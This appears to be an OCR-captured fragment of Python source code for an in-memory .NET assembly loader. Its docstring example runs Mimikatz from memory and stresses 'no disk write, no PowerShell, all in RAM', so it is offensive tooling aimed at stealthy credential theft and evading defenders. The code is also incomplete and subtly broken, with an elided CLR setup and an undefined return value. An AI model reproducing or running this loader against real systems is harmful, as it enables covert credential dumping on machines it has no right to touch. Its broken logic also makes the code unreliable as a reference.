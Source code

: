 ```python
        
        # ICLRRuntimeHost for .NET 4.0+
        self.clr_host = self._load_clr()
    
    def _load_clr(self):
        """Load Common Language Runtime"""
        import ctypes
        from ctypes import wintypes
        
        # Load mscoree.dll
        mscoree = ctypes.windll.LoadLibrary("mscoree.dll")
        
        # CLRCreateInstance
        # ... load CLR v4.0
        
        return clr_host
    
    def execute_assembly(self, assembly_bytes: bytes, args: List[str] = None) -> str:
        """
        Execute .NET assembly in current process
        
        Args:
            assembly_bytes: Compiled .NET DLL/EXE bytes
            args: Command-line arguments
        
        Returns:
            Assembly output (captured stdout)
        
        Example:
            # Run Mimikatz in-memory
            with open('mimikatz.exe', 'rb') as f:
                asm_bytes = f.read()
            
            output = loader.execute_assembly(asm_bytes, ['coffee', 'exit'])
            # Output contains Mimikatz results
            # No disk write, no PowerShell, all in RAM
        """
        
        # 1. Load assembly into CLR
        assembly = self.clr_host.LoadAssembly(assembly_bytes)
        
        # 2. Find entry point
        entry_point = assembly.EntryPoint
        
        # 3. Capture stdout
        import io
        import sys
        old_stdout = sys.stdout
        sys.stdout = captured_output = io.StringIO()
        
        try:
            # 4. Invoke entry point
            entry_point.Invoke(None, [args])
            
            # 5. Get output
            output = captured_output.getvalue()
            
        finally:
            sys.stdout = old_stdout
        
        return output
```
